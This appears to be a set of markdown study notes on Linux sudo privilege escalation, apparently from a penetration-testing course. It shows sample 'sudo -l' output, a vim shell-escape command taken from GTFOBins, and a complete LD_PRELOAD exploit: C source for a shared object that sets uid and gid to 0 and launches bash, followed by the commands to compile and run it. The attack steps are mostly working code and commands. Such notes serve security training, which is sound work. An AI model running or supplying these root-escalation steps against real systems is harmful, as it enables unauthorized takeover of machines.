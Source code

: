 ##### Shell Escaping & Functionality
 - Let's say you see the following that can be run with NOPASSWD:
```text
User TCM may run the following commands on this host:
    (root) NOPASSWD: /usr/sbin/iftop
    (root) NOPASSWD: /usr/bin/find
    (root) NOPASSWD: /usr/bin/nano
    (root) NOPASSWD: /usr/bin/vim
    (root) NOPASSWD: /usr/bin/man
    (root) NOPASSWD: /usr/bin/awk
    (root) NOPASSWD: /usr/bin/less
    (root) NOPASSWD: /usr/bin/ftp
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/sbin/apache2
    (root) NOPASSWD: /bin/more
```

 - We can use [GTFOBins](https://gtfobins.github.io) to search for the binary names, i.e. `vim` and goto the `Sudo` section.
 - From the site we can see that we can get a shell using the following command:
```bash
sudo vim -c ':!/bin/bash'
```

 - If there is nothing on GTFOBins, try and Google the application that you can run as root and see if there is any exploits. Also check man-pages/help-guides to see if there is any other functionality of interest for that application. Maybe reading/sending files.

##### LD_PRELOAD
 - Let's say you see the following after running `sudo -l`:
```text
Matching Defaults entries for TCM on this host:
    env_reset, env_keep+=LD_PRELOAD
```

 - We can use this gain root.
 - Create & save the following C file:
```C
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```
 - We then compile our the program:
```bash
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

 - Finally we can the following command to get root, ASSUMING we can run at least 1 program as root with no password.
 - NOTE: we must include the full path to the file.
```bash
sudo LD_PRELOAD=/home/user/shell.so vim
```
